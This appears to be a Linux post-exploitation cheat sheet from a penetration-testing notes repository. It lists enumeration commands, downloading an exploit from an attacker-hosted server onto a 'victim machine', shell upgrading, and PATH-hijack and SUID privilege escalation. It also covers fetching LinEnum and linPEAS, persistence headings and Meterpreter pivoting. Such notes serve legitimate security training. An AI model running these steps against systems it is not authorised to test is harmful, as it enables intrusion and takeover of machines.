 # Linux Post Exploitation


<details>
    <summary></summary>
    <br>
</details>

<details>
    <summary>Enumeration</summary>
    <br>
    
## Enumeration

    uname -a
       
    ps -aux 
    
    id
    
      Find out if the user is part of groups with interesting files
      
      find / -type f -group <group> 2>/dev/null
      
  - Find all writable direcotries for copying over scripts
  
        find / -writable
   
    
  - [LinEnum](https://github.com/rebootuser/LinEnum)  
  
        wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh          
          
  - [Local Linux Enumeration](https://www.rebootuser.com/?p=1623)
  
  
  See what sudo commands you can run
  
       sudo -l
       
</details>


<details>
    <summary>Moving file methods</summary>
    <br>
    
  ## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
</details>


<details>
    <summary> Privilege escalation</summary>
    <br>
    
 Horizontal or vertical privilege escalation?
 
 
    
## Local exploits

    searchsploit <linux kernel version>
   
    searchsploit <linux version>
    
    post/multi/recon/local_exploit_suggester


## Upgrading basic shell to terminal 

    python -c 'import pty;pty.spawn("/bin/bash")';
    
    
## Privilege Escalation

- [Privilege Escalation Cheatsheet ](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

- [guide to priv escalation](https://payatu.com/guide-linux-privilege-escalation)

- **Read LinEnum output: **

     Kernel Kernel information is shown here. **Research kernel exploits**

   - Can we read/write sensitive files: The world-writable files are shown below. These are the files that any authenticated user can read and write to. By looking at the permissions of these sensitive files, we can see where there is misconfiguration that allows users who shouldn't usually be able to, to be able to write to sensitive files.

    - [SUID](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) Files: SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. It allows the file to run with permissions of whoever the owner is. If this is root, it runs with root permissions. It can allow us to escalate privileges.
     
     [Past SUID shells](https://github.com/Kahvi-0/Tools-and-Concepts/tree/master/Toolbox/Shells/SUID)
     
     Sometimes custom scripts will use relative pathing for commands rather than absolute. One way to abuse this would be to add . to your PATH and have a shell script in your working directory with the name of that command in the script. 
     
          echo /bin/sh > <command>    # To run <command> which then points to shell
          
          chmon 777 <command>
          
          export PATH=/tmp:$PATH
   
        #Manual  find directory -user root -perm -4000 -exec ls -ldb {} \; 2>&1 | grep -v "Permission denied"
        
         find / -perm -u=s -type f 2>/dev/null

    **Crontab Contents:** The scheduled cron jobs are shown below. Cron is used to schedule commands at a specific time. These scheduled commands or tasks are known as “cron jobs”. Related to this is the crontab command which creates a crontab file containing commands and instructions for the cron daemon to execute. There is certainly enough information to warrant attempting to exploit Cronjobs here. 

- [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
   
        wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
        
        https://book.hacktricks.xyz/linux-unix/privilege-escalation


Check /etc/passwd for user/ group ids

    0 is typically root ( this can be <= 500) 
    
    1000+ is where new user accounts start
    
 

</details>
   
 
 ## Maintain persistence

  - Add user
  

  - Metasploit


  - Set a scheduled task
  
  
## Pivoting

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
       
       Note that the routes created via meterpreter only aspply to that isntance of metasploit.
        If modules are crashing the shell when trying to scan via metasploit module, try running the scan from the compromised machine itself, then launcing targeted attacks from metasploit. 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
# Find more

  Metasploit
  
    post/linux/


